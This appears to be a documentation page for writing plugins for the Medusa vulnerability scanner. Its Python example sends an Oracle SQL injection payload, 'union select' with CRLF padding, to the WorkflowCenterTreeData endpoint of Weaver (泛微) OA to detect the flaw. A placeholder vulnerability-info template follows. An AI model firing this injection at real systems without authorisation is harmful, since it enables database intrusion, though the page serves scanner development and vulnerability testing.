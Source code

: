 ```python
                # "http": "http://" + str(ProxyIps) , # 使用代理前面一定要加http://或者https://
                "http": "http://" + str(ProxyIp)
            }
            resp = s.post(payload_url,
                          data={'formids': '11111111111)))' + '\x0a\x0d' * 360 + 'union select NULL,instance_name from '
                                                                                 'v$instance order by (((1'},
                          headers=headers, timeout=6, proxies=proxies,verify=False)
        elif ProxyIp==None:
            resp = s.post(payload_url,
                         data={'formids': '11111111111)))' + '\x0a\x0d' * 360 + 'union select NULL,instance_name from '
                                                                                'v$instance order by (((1'},
                         headers=headers, timeout=6, verify=False)
        con = resp.text
        code = resp.status_code
        if code == 200 and con.lower().find('''"draggable":''') != -1 and con.lower().find(
                '''"checked":''') != -1 and con.lower().find('''"id":''') != -1 and con.lower().find(
                '''"text":''') != -1:
            Medusa = "{} 验证数据:\r\nRequests:{}\r\n".format(url,resp.headers)
            _t=VulnerabilityInfo(Medusa)
            web=ClassCongregation.VulnerabilityDetails(_t.info)
            web.High() # serious表示严重，High表示高危，Intermediate表示中危，Low表示低危
            return (str(_t.info))
    except Exception:
        _ = VulnerabilityInfo('').info.get('algroup')
        _l = ClassCongregation.ErrorLog().Write(url, _)  # 调用写入类传入URL和错误插件名
        
```

### VulnerabilityInfo函数

```python
class VulnerabilityInfo(object):
    def __init__(self):
        self.info = {}
        self.info['number']="0" #如果没有CVE或者CNVD编号就填0，CVE编号优先级大于CNVD
        self.info['author'] = "Ascotbe"  # 插件作者
        self.info['create_date'] = "2019-10-13"  # 插件编辑时间
        self.info['disclosure']='2019-10-13'#漏洞披露时间，如果不知道就写编写插件的时间
        self.info['algroup'] = "XXXXXXXXXXXXXXXXXXXX"  # 插件名称
        self.info['name'] ='泛微OA_WorkflowCenterTreeData接口注入漏洞' #漏洞名称
        self.info['affects'] = "该漏洞是哪个组件的，比如这个插件就是叫：泛微OA"  # 漏洞组件
        self.info['desc_content'] = "漏洞描述，比如在组件的哪个版本，哪个位置，有什么危害，什么地方没写好或者没过滤导致的等"  # 漏洞描述
        self.info['rank'] = "这边写危害等级，比如这个插件就该写:高危"  # 漏洞等级
        self.info['suggest'] = "给出缓解措施，或者解决办法"  # 修复建议
        self.info['version'] = "xxx版本-xxx版本"  # 这边填漏洞影响的版本
        self.info['details'] = Medusa  # 结果需要传入的恒定不变

```
